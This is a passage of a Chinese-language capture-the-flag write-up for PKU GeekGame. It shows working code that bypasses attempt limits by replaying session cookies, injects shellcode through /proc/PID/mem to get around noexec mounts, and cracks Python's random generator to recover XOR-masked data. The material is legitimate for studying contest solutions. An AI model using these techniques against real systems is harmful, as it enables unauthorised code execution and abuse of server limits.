def guess(ans):  # -> 🟥🟨🟩
    global last_page
    r = session.get('https://prob14.geekgame.pku.edu.cn/level1', params={'guess': ''.join(ans)})
    last_page = str(r.text)
    rst = re.search(r'results\.push\("(.*?)"\)', last_page).group(1)
    return rst

# 初始化候选字符集，答案向量和结果向量
# https://unicode.org/Public/emoji/15.1/emoji-test.txt
n = 64
charset = set(emojis.emojis)
ans = [0] * n
rst = [0] * n
candlst = [charset.copy() for _ in ans]

while True:
    # 创建会话
    session = requests.session()
    r = session.get('https://prob14.geekgame.pku.edu.cn/level1')
    bs = BS(r.text, 'lxml')
    last_page = None

    # 1/64 -> ... -> ? -> 64/64: 多次尝试，不断调整答案
    number = 1
    while number <= 64 and rst != '🟩' * n :
        for i in range(n):
            if ans[i] in candlst[i]:
                if rst[i] == '🟥':
                    for j in range(n): candlst[j].remove(ans[i])
                elif rst[i] == '🟨':
                    candlst[i].remove(ans[i])
            if rst[i] != '🟩':
                ans[i] = random.choice(list(candlst[i]))
        rst = guess(ans)
        print(f'\n[{number}]', ''.join(ans), rst, sep='\n')
        time.sleep(0.5)
        number += 1

    if number <= 64: print(last_page); break
```

解决后续问题的主要思路是保存和复用会话 cookie 来欺骗服务器，使得客户端的状态停留在第一次猜测阶段，以突破尝试次数的限制。由于题目给的尝试次数限制实在太严，几乎没有常规策略可以求解，这启发了破坏 HTTP 协议中的 cookie 交换规则来走后门的思路。解决第二题和第三题的脚本只有对端 URL 的差别，下面给出的是解决第二题的脚本，除增加了处理 cookie 的业务逻辑外，它与第一题的解法完全一样。

```python
import emojis
import re
import requests
from bs4 import BeautifulSoup as BS
import random
import time

# 单步猜测
def guess(ans):  # -> 🟥🟨🟩
    global last_page
    r = session.get('https://prob14.geekgame.pku.edu.cn/level2', params={'guess': ''.join(ans)})
    last_page = str(r.text)
    rst = re.search(r'results\.push\("(.*?)"\)', last_page).group(1)
    return rst

# 初始化候选字符集，答案向量和结果向量
# https://unicode.org/Public/emoji/15.1/emoji-test.txt
n = 64
charset = set(emojis.emojis)
ans = [0] * n
rst = [0] * n
candlst = [charset.copy() for _ in ans]

while True:
    # 创建会话
    session = requests.session()
    r = session.get('https://prob14.geekgame.pku.edu.cn/level2')
    cookies = dict(session.cookies)
    bs = BS(r.text, 'lxml')
    last_page = None

    # 1/8 -> 1/8 ... -> 1/8: 多次尝试，不断调整答案
    number = 1
    while number <= 65536 and rst != '🟩' * n :
        for i in range(n):
            if ans[i] in candlst[i]:
                if rst[i] == '🟥':
                    for j in range(n): candlst[j].remove(ans[i])
                elif rst[i] == '🟨':
                    candlst[i].remove(ans[i])
            if rst[i] != '🟩':
                ans[i] = random.choice(list(candlst[i]))
        session.cookies.clear_session_cookies()
        session.cookies.update(cookies)
        print(session.cookies)
        rst = guess(ans)
        print(f'\n[{number}]', ''.join(ans), rst, sep='\n')
        time.sleep(0.5)
        number += 1

    if number <= 65536: print(last_page); break
```


## 未来磁盘

这道题目早早地放出了提示，但我很长时间没有任何思路。但某一时刻看到这句话“Flag 1 的原文件大小约 7TB”，我突然想到 7TB 的大小对于我这种做高能物理的人来说根本不算什么，于是直接开始尝试暴力破解。

```bash
gzip -d flag1.gz 
mv flag1 flag1.gz
gzip -d flag1.gz 
mv flag1 flag1.gz
```

两轮操作下来 flag1.gz 已经达到了 GB 量级，目测再解压一次就是原始文件了。验证一下：

```bash
gzip -cd flag1.gz | xxd -g 1 | head
```

果真看到了大段大段的零。太好了，先尝试一下能不能直接使用现成的工具解决问题：

```bash
gzip -cd flag1.gz | stdbuf -o0 grep -o 'flag{[^{}]*}' > flag1.txt &
tail -f flag1.txt
```

黑箱等待好一会儿后，屏幕上出现了 grep 报出的内存不足的错误。看来这是正则表达式匹配惹的祸。那就手动解决问题：

```c
#include <stdio.h>
#include <zlib.h>
#include <string.h>

#define FLAG_MAXLEN  512
#define MIN(x, y) ({ \
  __typeof(x) xx = (x); __typeof(y) yy = (y); xx < yy ? xx : yy; \
})

int main(void)
{
  gzFile file = gzopen("flag1.gz", "rb");
  if(file == NULL) return 1;

  char buf[BUFSIZ + FLAG_MAXLEN];
  long passed = 0;  // 已经读取多少字节

  // 以 BUFSIZ 为单位，不断读取文件
  long c = 0;
  int r;
  while((r = gzread(file, buf, BUFSIZ)) > 0) {
    if((++c & 0xffff) == 0) {
      printf("%ld MB passed.\n", passed >> 20);
      fflush(stdout);
    }
    passed += r;

    // 找到第一个出现的 'f'
    char *f = (char *)memchr(buf, 'f', r);
    if(f == NULL) continue;

    // 按需补充读取，保证从 'f' 开始至少有 FLAG_MAXLEN 字节或无法再读取
    int len = r - (f - buf);
    while(len < FLAG_MAXLEN) {
      int more = gzread(file, buf + r, FLAG_MAXLEN);
      if(more <= 0) break;  // 文件结尾或错误
      passed += more;
      r += more;
      len += more;
    }

    // 检查是否满足 flag{...} 的要求，如不满足，退回 1
    if(len < 6) return 1;
    if(memcmp(f, "flag{", 5)) return 1;
    char *$ = (char *)memchr(f + 5, '}', MIN(len, FLAG_MAXLEN) - 5);
    if($ == NULL) return 1;
    
    // 输出 flag
    write(1, f, $ - f + 1);
    putchar('\n');
    return 0;
  }
  return 1;
}
```

编译运行：

```
$ gcc -O3 flag1.c -o flag1 -lz
$ ./flag1
511 MB passed.
1023 MB passed.
1535 MB passed.
...
```

开始了！经过一个半小时左右，屏幕最下方出现了答案：

```
...
3701759 MB passed.
3702271 MB passed.
flag{m0re_GZIP_fi1e_b0mB}
```

提交，成功！


## 禁止执行，启动

首先猜想禁止执行并非修改内核实现，输入 mount 命令检查一下：

```
rootfs on / type rootfs (ro,size=216072k,nr_inodes=54018)
dev on /dev type devtmpfs (rw,nosuid,noexec,relatime,size=216072k,nr_inodes=54018,mode=755)
proc on /proc type proc (rw,nosuid,noexec,relatime)
sys on /sys type sysfs (rw,nosuid,noexec,relatime)
tmp on /tmp type tmpfs (rw,nosuid,noexec,relatime)
home on /home type ramfs (rw,nosuid,noexec,relatime)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,mode=600,ptmxmode=000)
```

所有条目要么指定了 ro 选项拒绝写入，要么指定了  noexec 选项不能加载执行，但好在其中包括 /proc 文件系统，故不难构造一个靶进程阻塞于某系统调用上，借助 /proc/$PID/syscall 得知用户空间的 PC，然后用 dd 向该位置注入获取 flag 的代码，最后解除阻塞，执行代码输出 flag。一个方便控制阻塞和解除阻塞的实现方案是使用 mkfifo 创建一个具名管道，然后对其执行 cat 操作，cat 进程将阻塞在 open 系统调用上，直至有写进程打开这个 fifo。

```bash
cd
rm -f fifo
mkfifo fifo
cat fifo &
PID=$!
ADDR=$(cat /proc/${PID}/syscall | awk '{print $9}' | xargs printf %d)
echo ${PID} ${ADDR}
echo -ne '\xb8\x24\x02\x00\x00\x31\xff\x48\x8d\xb4\x24\x00\xfc\xff\xff\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x48\x8d\xb4\x24\x00\xfc\xff\xff\xba\x00\x04\x00\x00\x0f\x05\xb8\xe7\x00\x00\x00\x31\xff\x0f\x05' | dd bs=1 seek=${ADDR} of=/proc/${PID}/mem conv=notrunc
echo -n 'Press ENTER to continue. '
read INPUT
echo 1 > fifo
```

上面代码中的二进制字符对应以下汇编：

```assembly
	.globl	_start
_start:
	movl $548, %eax          # __NR_get_flag
	xorl %edi, %edi          # id = 0
	leaq -0x400(%rsp), %rsi  # buf
	syscall
	movl $1, %eax            # __NR_write
	movl $1, %edi            # fd = 1
	leaq -0x400(%rsp), %rsi  # buf
	movl $0x400, %edx        # count
	syscall
	movl $231, %eax          # __NR_exit_group
	xorl %edi, %edi          # status = 0
	syscall
```

dd 的每个参数都是必要的，特别是 bs 和 notrunc，如忽略 bs 将导致偏移量单位被理解为 512 字节，如忽略 notrunc 将导致 dd 直接失败在对 mem 的 ftruncate 系统调用上。其中的 read 命令用于方便本地调试时的 gdb attach。该方案一次性获得了前两个 flag。第三个 flag 我尝试了很多方案，包括第二阶段提示的 memfd 方案，如使用 `execveat(memfd, "", NULL, NULL, AT_EMPTY_PATH)`，退回 ENOENT 错误；如使用 `dfd = open("/proc/self/fd", O_RDONLY); execveat(dfd, itoa(memfd), NULL, NULL, 0)`，退回 EPERM 错误。属实没有其他对策了。第二种方案的汇编如下：

```assembly
	.globl	_start
_start:
	movl	$2, %eax			# __NR_open
	leaq	-0x10(%rsp), %rdi		# pathname
	movabsq	$0x7261682f706d742f, %rdx
	movq	%rdx, (%rdi)
	movabsq	$0x67616c665f64, %rdx
	movq	%rdx, 0x8(%rdi)
	xorl	%esi, %esi			# flags
	syscall					# fd = open("/tmp/hard_flag", O_RDONLY)
	movl	%eax, %ebx			# saved fd
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$9, %eax			# __NR_mmap
	xorl	%edi, %edi			# addr
	movl	$907568, %esi			# length
	movl	$1, %edx			# prot
	movl	$2, %r10d			# flags
	movl	%ebx, %r8d			# fd
	xorl	%r9d, %r9d			# offset
	syscall					# buf = mmap(NULL, 907568, PROT_READ, MAP_PRIVATE, fd, 0)
	movq	%rax, %rbp			# saved buf
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$3, %eax			# __NR_close
	movl	%ebx, %edi			# fd
	syscall					# close(fd)
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$319, %eax			# __NR_memfd_create
	leaq	-0x10(%rsp), %rdi		# name
	movabsq	$0x7261682f706d742f, %rdx
	movq	%rdx, (%rdi)
	movabsq	$0x67616c665f64, %rdx
	movq	%rdx, 0x8(%rdi)
	xorl	%esi, %esi			# flags
	syscall					# fd = memfd_create("/tmp/hard_flag", 0)
	movl	%eax, %ebx			# saved fd
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$1, %eax			# __NR_write
	movl	%ebx, %edi			# fd
	movq	%rbp, %rsi			# buf
	movl	$907568, %edx			# count
	syscall					# write(fd, buf, 907568)
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$11, %eax			# __NR_munmap
	movq	%rbp, %rdi			# addr
	movl	$907568, %esi			# length
	syscall					# munmap(buf, 907568)
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	movl	$2, %eax			# __NR_open
	leaq	-0x10(%rsp), %rdi		# pathname
	movabsq	$0x65732f636f72702f, %rdx
	movq	%rdx, (%rdi)
	movabsq	$0x64662f666c, %rdx
	movq	%rdx, 0x8(%rdi)
	xorl	%esi, %esi			# flags
	syscall					# fd = open("/proc/self/fd", O_RDONLY)
	movl	%eax, %ebp			# saved fd
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)

	leaq	-0x10(%rsp), %rsi		# pathname
	movl	%ebx, %eax
	movl	$10, %ecx
	cltd
	divl	%ecx				# fd = $eax * 10 + $edx
	movl	%eax, %r8d
	movl	%edx, %r9d
	orl	$0x30, %r9d
	shl	$8, %edx
	orl	%edx, %eax			# 10 <= fd < 100
	orl	$0x3030, %eax
	testl	%r8d, %r8d
	cmovel	%r9d, %eax			# 0 <= fd < 10
	movl	%eax, (%rsi)
	movl	$322, %eax			# __NR_execveat
	movl	%ebp, %edi			# dfd
	xorl	%edx, %edx			# argv
	xorl	%r10d, %r10d			# envp
	xorl	%r8d, %r8d			# flags
	syscall					# execveat(dfd, itoa(fd), NULL, NULL, 0)
	leaq	-0x20(%rsp), %rsi		# buf
	movq	%rax, (%rsi)
	movl	$1, %eax			# __NR_write
	movl	$1, %edi			# fd
	movl	$8, %edx			# count
	syscall					# write(1, &code, 8)
```

其中有众多 write 系统调用回传其上一个系统调用的结果，方便调试。


## 汉化绿色版免费下载

由于不怎么玩游戏，加上很少使用 Windows 系统，我在第一阶段甚至没有找到游戏的操作方法。我还花了大量时间研究 prob25.zip，但没有从中获得任何有效信息。第二阶段放出提示后，我看到做出的人数众多，遂遍历键盘按键找到了操控方式，使用官方推荐的 Cheat Engine 扫描内存，获得了 flag1。在此之前，我还尝试了用 gdb 执行这个任务，但没有成功在这个 Windows 程序上设置合适的断点，且不能用 Ctrl+C 随时中断程序进行调试，只好下载安装了 Cheat Engine。本题可能对游戏外挂党更为友好。


## 小章鱼的曲奇

第一阶段我以为这是一个文字密码题，就没仔细看。第二阶段 flag1 居然没提示，那我一定要尝试一下。一看，flag1 原来是一个 Python 随机数破解题，直接明文提供了长达 2500 字节的连续随机数序列，满足 624 个 uint32 的破解要求，故可以直接使用 randcrack 预测之后的序列，与输出序列再次异或还原出 flag1。

```python
import randcrack
import numpy as np

crack = randcrack.RandCrack()

s = '<程序输出的十六进制序列，占用篇幅特别长，故此处不予给出>'

d = []
for i in range(len(s) // 2):
    d.append(int(s[i*2 : i*2 + 2], base=16))
d = bytes(d)
while len(d) % 4: d += b'\x00'
d = np.frombuffer(d, dtype='uint32')

for i in range(624): crack.submit(d[i])
t = np.zeros(len(d) - 624, dtype=d.dtype)
for i in range(len(t)): t[i] = crack.predict_getrandbits(32)
t ^= d[624:]
print(t.tobytes())
```


## Dark Room

比赛结束前约 1 小时，打开排行榜，发现排名跌到了二等奖最后一名，遂紧急补做一题改变排名。结合提示和题目给的源代码快速上手，制定了一个通关路线，尽量少经过原点减少扣分，且尽量经过可以加分的位置，并尽量获得可以加分的宝物。时间紧迫没有详细优化，但发现不使用 help 时我的路线已经可以做到 90% 生命值通关，那么再 help 三次，就有 $0.2^3 = 0.008$ 的概率每次净加 9 分，刚好可以通关。剩下就是诈骗分子常用的以数量搏概率的手段了。时间还剩不到 20 分钟，三秒刷一次应该还够。直接不断运行脚本手工暴刷，很幸运在比赛结束前 5 分钟左右通关了。

```python
#!/usr/bin/env python3

import socket

with open('escape.txt', 'rb') as ans:
    ans = ans.readlines()
off = 0
while ans[off] != b'[answer]\n':
    off += 1
print(ans[off + 1 :])

s = socket.socket()
s.connect(('prob16.geekgame.pku.edu.cn', 10016))
print(s.recv(8192))
sock.send(b'<my-token-not-visible-to-otherone>\n')
print(s.recv(8192))

for a in ans:
    s.send(a)
    print(s.recv(8192))

while True:
    buf = s.recv(8192)
    if not buf: break
    print(buf)
```

上面代码中的 escape.txt 是紧急准备的通关笔记，内容如下：

```
[origin]
eee	trinket
nne	brass key
ees	brass door
nnww	gold door
nnwws	flag room

[brass]
swwwn	gold key

[gold]
n	escape

[answer]
newgame
lyazj
y
n
n
e
pickup key
w
s
s
e
e
e
pickup trinket
use trinket
w
s
usewith key door
s
s
n
w
w
w
n
pickup key
s
e
e
e
n
n
w
w
n
n
w
w
usewith key door
h
h
h
n
```

结束了，吃饭。
